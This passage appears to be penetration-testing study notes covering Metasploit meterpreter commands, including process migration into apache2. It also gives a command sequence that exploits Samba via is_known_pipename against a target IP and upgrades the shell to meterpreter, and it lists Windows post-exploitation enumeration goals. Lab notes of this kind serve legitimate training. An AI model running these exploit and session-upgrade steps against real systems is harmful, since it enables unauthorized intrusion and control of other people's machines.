 | `shell`                            | Create a shell terminal (Ctrl+C to terminate channel).                            |
| `ps`                               | Allow to display process tree (check to migrate from one process to another one). |
| `migrate 580`                      | Migrate to the process `580`.                                                     |
| `migrate -N apache2`               | Migrate to the process with the name `apache2`.                                   |
| `execute -f ifconfig`              | Create a new process.                                                             |

#### Shell to Meterpreter

```bash
kali@kali> service postgresql start && msfconsole
msf6> workspace -a meterpreter
msf3> setg rhosts 192.81.201.3
msf6> db_nmap -sV -sS -O 192.81.201.3

msf6> use exploit/linux/samba/is_known_pipename
msf6> run

/bin/bash -i
# Ctrl+Z
```

Upgrade shell to meterpreter.

```bash
msf6> use post/multi/manage/shell_to_meterpreter
msf6> setg lhost eth1
msf6> set session 1
msf6> run

msf6> sessions 2
```

You can do the same action with the command `sessions -u 1`.

```bash
meterpreter> sysinfo
```

### Windows post exploitation

#### Modules

* The MSF provides us with various post exploitation modules for both Windows and Linux.
* We can utilize these post exploitation modules to enumerate information about the Windows system we currently have access to :
  * Enumerate user privileges
  * Enumerate logged on users
  * VM check
  * Enumerate installed programs
  * Enumerate AVs
  * Enumerate computers connected to domain
  * Enumerate installed patches
  * Enumerate shares
